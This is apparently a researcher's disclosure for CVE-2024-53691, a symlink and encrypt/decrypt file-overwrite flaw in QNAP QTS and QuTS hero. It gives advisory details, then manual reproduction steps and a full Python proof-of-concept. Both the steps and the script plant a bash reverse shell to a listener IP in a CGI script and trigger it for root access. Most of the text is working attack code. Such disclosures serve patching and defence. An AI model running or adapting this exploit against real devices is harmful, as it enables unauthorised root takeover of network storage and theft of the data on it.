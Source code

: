 # CVE-2024-53691
- https://www.qnap.com/en/security-advisory/qsa-24-28
- https://www.cve.org/CVERecord?id=CVE-2024-53691
- CVSS:4.0/AV:N/AC:L/AT:N/PR:L/UI:N/VC:H/VI:H/VA:H/SC:N/SI:N/SA:N (8.7)

"If exploited, the link following vulnerability could allow remote attackers who have gained user access to traverse the file system to unintended locations."

__Date of Discovery:__ 22 April 2024  
__Date of Fix:__ 7 September 2024  
__Affected Version(s):__ QTS 5.1.x, QuTS hero h5.1.x  
__Fixed Version(s):__ QTS 5.2.0.2802 build 20240620 and later, QuTS hero h5.2.0.2802 build 20240620 and later  
__Access Permissions:__ Regular user with file upload permission  

__Summary__:__  
It is possible to upload a symlink trough a ZIP file and abuse the encrypt/decrypt function to gain an arbitrary file write primitive which can be turned into remote code execution.  
An attacker with privileges of a regular user can exploit the vulnerability to gain code execution as root user and completely compromise the system.  

# Steps to Reproduce

1. Create a symbolic link and put it into a ZIP file. The symlink target specifies which file will be overwritten. To achieve remote code execution */home/httpd/cgi-bin/restore_config.cgi* was choosen.

    ``` bash
    ln -s /home/httpd/cgi-bin/restore_config.cgi link.txt
    zip --symlink pwn.zip link.txt
    ```

2. Write the shell commands that will be executed into *payload.txt*. A standard bash reverse shell is used in the example. Don't forget to adjust the listener IP and port.

    ``` bash
    #!/bin/sh
    bash -c "bash -i >& /dev/tcp/192.168.178.142/4444 0>&1" &
    . /home/httpd/cgi-bin/json_output
    output_http_header
    output_header
    output_save_restore
    output_tail
    ```

2. Login as a low-privileged user.
3. Upload the ZIP file trough the web interface.
4. Extract the ZIP file by right-clicking and selecting *Extract to /pwn/*.
5. Upload the *payload.txt* to */pwn/payload.txt*.

    ![Uploaded files](screenshots/uploaded_files.png)

6. Encrypt the *payload.txt* by right-clicking, selecting *Encrypt* and setting *Do you want to encrypt and replace the original file?* to *Yes*.
7. Rename the file *payload.txt.qenc* to *link.txt.qenc* by right-clicking and selecting *Rename*.
8. Decrypt the file *link.txt.qenc* by right-clicking, selecting *Decrypt* and setting *Mode* to *Overwrite*.
9. Start your reverse shell listener.

    ``` bash
    nc -nvlp 4444
    ```

10. Open the */cgi-bin/restore_config.cgi* endpoint in your browser to trigger execution of the reverse shell.

    ![Reverse shell as admin](screenshots/rev-shell.png)

 # Proof of Concept

The following Python script can be used to exploit the vulnerability.


``` python
#!/usr/bin/env python3
from requests import Session
import base64
import os
import re
import time
import urllib3

# adjust following variables
ENDPOINT = 'https://192.168.178.156'
USERNAME = 'victim'
PASSWORD = 'Victim123!'
LISTENER_IP = '192.168.178.142'
LISTENER_PORT = 4444
PAYLOAD = f"""#!/bin/sh
bash -c "bash -i >& /dev/tcp/{LISTENER_IP}/{LISTENER_PORT} 0>&1" &
. /home/httpd/cgi-bin/json_output
output_http_header
output_header
output_save_restore
output_tail
"""
#DEBUG_PROXY = 'http://localhost:8080'

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)


def main() -> None:
    session = Session()
    #session.proxies.update(http=DEBUG_PROXY, https=DEBUG_PROXY)
    session.verify = False

    print('creating zip file')
    os.system("""
        rm -f link.txt pwn.zip payload.txt
        ln -s /home/httpd/cgi-bin/restore_config.cgi link.txt
        zip --symlink pwn.zip link.txt
    """)

    print('loggin in')
    response = session.post(
        f'{ENDPOINT}/cgi-bin/authLogin.cgi',
        headers={'Content-type': 'application/x-www-form-urlencoded'},
        data={'user': USERNAME, 'serviceKey': '1', 'client_app': 'Web Desktop', 'dont_verify_2sv_again': '0', 'pwd': base64.b64encode(PASSWORD.encode('ascii')).decode('ascii'), 'client_id': '2b491dc6-6542-480d-a3a2-bbe3b433b764'},
    )
    assert response.status_code == 200
    match = re.search(r'<authSid><!\[CDATA\[(.*?)\]\]></authSid>', response.text)
    assert match
    sid = match.group(1)

    print('uploading zip file')
    with open('pwn.zip', 'rb') as file:
        upload_file(session, sid, 'pwn.zip', file.read())

    print('unpacking zip file')
    response = session.post(
        f'{ENDPOINT}/cgi-bin/filemanager/utilRequest.cgi?func=extract&sid={sid}',
        headers={'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8'},
        data={'mode': 'extract_all', 'pwd': '', 'path_mode': 'full', 'extract_file': '/home/pwn.zip', 'code_page': 'UTF-8', 'overwrite': '1', 'dest_path': '/home/pwn'},
    )
    assert response.status_code == 200
    data = response.json()
    assert data['status'] == 1


    time.sleep(5)

    print('uploading payload file')
    upload_file(session, sid, 'pwn/payload.txt', str.encode(PAYLOAD))

    print('encrypting payload file')
    response = session.post(
        f'{ENDPOINT}/cgi-bin/filemanager/utilRequest.cgi?func=cipher&sid={sid}&subfunc=encrypt',
        headers={'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8'},
        data={'passwd': 'test', 'dest_path': '/home', 'source_total': '1', 'source_path': '/home', 'source_file': 'pwn/payload.txt', 'mode': '0', 'keep': '1'},
    )
    assert response.status_code == 200
    data = response.json()
    assert data['status'] == 1

    print('renaming payload file')
    response = session.post(
        f'{ENDPOINT}/cgi-bin/filemanager/utilRequest.cgi?func=rename&sid={sid}',
        headers={'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8'},
        data={'path': '/home/pwn', 'source_name': 'payload.txt.qenc', 'dest_name': 'link.txt.qenc'},
    )
    assert response.status_code == 200
    data = response.json()
    assert data['status'] in (1, 2)

    print('decrypting payload file')
    response = session.post(
        f'{ENDPOINT}/cgi-bin/filemanager/utilRequest.cgi?func=cipher&sid={sid}&subfunc=decrypt',
        headers={'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8'},
        data={'passwd': 'test', 'dest_path': '/home/pwn', 'source_total': '1', 'source_path': '/home/pwn', 'source_file': 'link.txt.qenc', 'mode': '0'},
    )
    assert response.status_code == 200
    data = response.json()
    assert data['status'] == 1

    time.sleep(1)
    print('executing payload') 
    session.get(f'{ENDPOINT}/cgi-bin/restore_config.cgi')


def upload_file(session: Session, sid: str, filename: str, content: bytes) -> None:
    # get upload id
    response = session.post(f'{ENDPOINT}/cgi-bin/filemanager/utilRequest.cgi', headers={'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8'}, data={'upload_root_dir': '/home', 'func': 'start_chunked_upload', 'sid': sid})
    assert response.status_code == 200
    data = response.json()
    upload_id = data['upload_id']
    assert upload_id

    # upload file
    response = session.post(
        f'{ENDPOINT}/cgi-bin/filemanager/utilRequest.cgi?func=chunked_upload&sid={sid}&dest_path=%2Fhome&mode=1&dup=Copy&upload_root_dir=%2Fhome&upload_id={upload_id}&offset=0&filesize={len(content)}&upload_name={filename}&settime=1&mtime=1713395222&overwrite=1&multipart=0',
        files=(
            ('fileName', (None, filename.encode('ascii'))),
            ('file', ('blob', content, 'application/octet-stream')),
        ),
    )
    assert response.status_code == 200
    data = response.json()
    assert data['status'] == 1


if __name__ == '__main__':
    main()
```
